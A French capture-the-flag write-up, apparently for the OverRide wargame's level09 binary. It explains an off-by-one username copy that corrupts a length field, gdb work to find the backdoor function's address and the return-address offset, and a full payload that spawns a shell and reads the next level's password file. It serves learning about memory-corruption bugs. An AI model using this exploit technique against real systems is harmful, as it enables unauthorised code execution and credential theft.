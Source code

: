 ## level09
- À l'usage, le binaire ressemble à une pseudo-messagerie, demandant un nom d'utilisateur et un message.
- En regardant le [code source désassemblé](/level09/source.c) :
    - Le binaire utilise une structure pour stocker les messages :
    ```C
    struct msn {
    char message[140];
    char username[40];
    int len;
    } msg;
    ```
    On voit que `len` est à la suite de `username`. Or dans la fonction `set_username`, la boucle d'assignation de `msg->username` copie un caractère de trop : il est donc possible d'écraser le dernier octet de `msg->len`. Cette variable est ensuite utilisée dans la fonction `set_msg` au moment du `strncpy`.
    - Il y a une fonction `secret_backdoor` qui permet d'exécuter la commande lue sur l'entrée standard.
- L'objectif de notre exploit sera donc d'écraser l'octet le moins significatif de `msg->len` (pour faire passer cette variable à 255). En écrivant 255 octets lors du `strncpy`, on pourrait écrire au delà de la `struct msn` et écraser l'adresse de retour de la fonction `handle_msg`. Notre exploit profitera donc du nom d'utilisateur et du message.
    - Pour le nom d'utilisateur, il s'agit simplement de remplir 40 caractères avant d'écrire `0xff` (255 en décimal) au 41e : `python -c "print '\x90'*40 + '\xff' + '\n'`
    - Pour le message, notre exploit aura deux tâches : appeller l'adresse de la fonction `secret_backdoor` et lui transmettre le paramètre `/bin/sh`.
        - Comme l'ASLR ([*Address Space Layout Randomization*](https://en.wikipedia.org/wiki/Address_space_layout_randomization)) a été utilisé pour ce binaire, un simple `objdump -t level09` ne suffira pas pour obtenir l'adresse de la fonction `secret_backdoor`. Puisqu'il s'agit d'un [*Position-independent executable*](https://en.wikipedia.org/wiki/Position-independent_code#PIE), cette adresse ne peut être obtenue qu'à l'exécution. En lançant le binaire depuis `gdb`, un simple `x secret_backdoor` nous permet de récupérer l'adresse : `0x55555555488c`
        - Il reste encore à déterminer le décalage nécessaire dans le message. On voit que peut faire planter le binaire avec une longueur trop importante. Cela nous permet d'arriver progressivement à la bonne valeur :
        ```
        level09@OverRide:~$ gdb level09
        ...
        (gdb) run < <(python -c "print 'A'*40 + '\xff' + '\n' + 'B'*180 + 'CCCDDDEEEFFFGGGHHHIIIJJJKKKLLLMMMNNNOOOPPPQQQRRRSSSTTTUUUVVVWWWXXXYYYZZZ111222333444555666777888999000aaabbbcccdddeeefffggghhhiiijjjkkklllmmmnnnooopppqqrrrssstttuuuvvvwwwwxxxyyyzzz'")
        ...
        Program received signal SIGSEGV, Segmentation fault.
        0x0000555555554931 in handle_msg ()
        (gdb) info register
        ...
        rbp            0x4949484848474747	0x4949484848474747
        ...
        ```
        Au moment du plantage, l'ebp avait la valeur `0x4949484848474747`, ce qui correspond en ASCII à `IIHHHGGG` : on a commencé à réécrire l'ebp à partir du 200e caractère.
- Au final, notre exploit sera donc de la forme `(python -c "print '\x90'*40 + '\xff' + '\n' + '\x90'*200  + '\x8c\x48\x55\x55\x55\x55\x00\x00' + '/bin/sh'" ; cat) | ./level09`. On obtient le flag avec `cat /home/users/end/.pass`. On peut se connecter en tant qu'utilisateur `end` et profiter du message de félicitations contenu dans le fichier `end`.
